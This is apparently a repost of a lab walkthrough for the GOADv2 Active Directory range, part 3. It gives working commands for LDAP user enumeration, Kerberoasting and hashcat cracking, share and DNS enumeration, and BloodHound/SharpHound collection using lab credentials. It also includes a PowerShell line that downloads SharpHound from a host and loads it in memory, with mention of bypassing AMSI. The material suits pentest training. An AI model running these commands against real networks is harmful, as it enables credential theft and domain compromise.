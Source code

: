 > [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part3/

We found some users in Part 2, now let's see what we can do with those creds.
## User listing

- When you get an account on an active directory, the first thing to do is always getting the full list of users.
- Once you get it you could do a password spray on the full user list (very often you will find other accounts with weak password like username=password, SeasonYear!, SocietynameYear! or even 123456).
```
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```

![screenshot](pics/GetADUsers_brandon.stark.png)

- With ldap query, i recommend this article with all the useful ldap query for active directory : [https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

- With ldap on north.sevenkingdoms.local

```
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" \|grep 'distinguishedName:'
```

![screenshot](pics/ldap_brandon.stark1.png)
![screenshot](pics/ldap_brandon.stark2.png)

- With ldap query we can request users of the others domain because a trust is present.

- On essos.local
```
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
```    

![screenshot](pics/ldap_brandon_essos.png)

- On sevenkingdoms.local
```
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```
![screenshot](pics/ldap_brandon_sevenkingdoms.png)

## Kerberoasting

- On an active directory, we will see very often users with an SPN set.

- let’s find them with impacket

```
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes 
```

![screenshot](pics/GetUserSPNs.png)



All the hashes will be stored in the file named kerberoasting.hashes

- We could also do that with nxc with the following command :
```
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

![screenshot](pics/nxc_kerberoasting.png)


- Now let’s try to crack the hashes :
```bash
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

- We quickly get a result with rockyou :

- And we found another user : north/jon.snow:iknownothing

## share enum

- We got a domain user so we could enumerate the share another time but with a user account
```
cme smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```
![screenshot](pics/nxc_smb_jon.snow.png)


- Now a new share folder is readable (nothing in it on the lab, but on a real assignment you will get very often juicy information)

## DNS dump

- Another cool thing to do when we got a user is enumerate dns. For this we can use dirkjanm’s tool [adidnsdump](https://github.com/dirkjanm/adidnsdump).

```
pipx install adidnsdump
```

```
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local
```

![screenshot](pics/adidnsdump.png)
- Results are stored in a records.csv file

![screenshot](pics/cat_records.png)

## Bloodhound

- Boodhound is one of the best tool for an active directory pentest. This tool will help you to find all the path to pwn the AD and is a must have in your arsenal !
    
- To launch bloodhound you first need to retrieve all the data from the different domains.
    

### Python ingestor - from linux

> [!NOTE]
>  bloodhound-ce-python is installed on Kali now



- First we will get the data with the python ingestor : [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
    
- Let’s run the script on north.sevenkingdoms.local :
    
```
bloodhound-ce-python --zip -c All -d north.sevenkingdoms.local. -u brandon.stark -p iseedeadpeople -ns 192.168.56.11
```

```
nxc ldap north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople bloodhound --collection All -dns-server 192.168.56.11
```


Ok now, we have all information from the domain north.sevenkingdoms.local. Now try to get information from other domains :

```
bloodhound-ce-python --zip -c All -d sevenkingdoms.local. -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -ns 192.168.56.12
```

```
bloodhound-ce-python --zip -c All -d essos.local. -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -ns 192.168.56.12
```

USER DOES NOT GET A TGT

- We now got the 3 domains information :)
    
- But the python ingestor is not as complete as the .net ingestor as we can see on the github project : _“Supports most, but not all BloodHound (SharpHound) features (see below for supported collection methods, mainly GPO based methods are missing)”_
    
- So let’s do that again from Windows this time.
    

### .net ingestor - from Windows

- The official bloudhound ingestor is sharphound : [https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound)
    
- Let’s start an RDP connection
    
```
xfreerdp3 /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert:ignore /drive:test,/home/kali/Desktop/htb/GOAD/tools /clipboard
```

- The C:\vagrant folder is automatically mounted on the vm it will simplify file transfer
- We will launch sharphound to retrieve domains information

```
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip

.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip

.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

- Or we could also do it in reflection with powershell if you want to play it full in memory (if you do this with defender enabled you will first have to bypass amsi)

```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

### Hunting with bloodhound

- Now start neo4j and bloodhound (at the time of writing the python ingestor match bloodhound 4.1 be sure to get the right version)
- Upload the zips into bloodhound
- And now show all domains and computer

```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
```


- And show all the users
```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:User) RETURN p
```

![screenshot](pics/bh_query1.png))

- let see the overall map of domains/groups/users

```
MATCH q=(d:Domain)-[r:Contains*1..]->(n:Group)<-[s:MemberOf]-(u:User) RETURN q
```
![screenshot](pics/bh_query2.png)

- Let us see the users ACL
```
MATCH p=(u:User)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' RETURN p
```
![screenshot](pics/bh_query3.png)

- If you want to dig more I recommend the following articles with a lot of useful information and queries :
    - [https://en.hackndo.com/bloodhound/](https://en.hackndo.com/bloodhound/)
    - [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

In the next article we will start to play with poisoning and ntlm relay.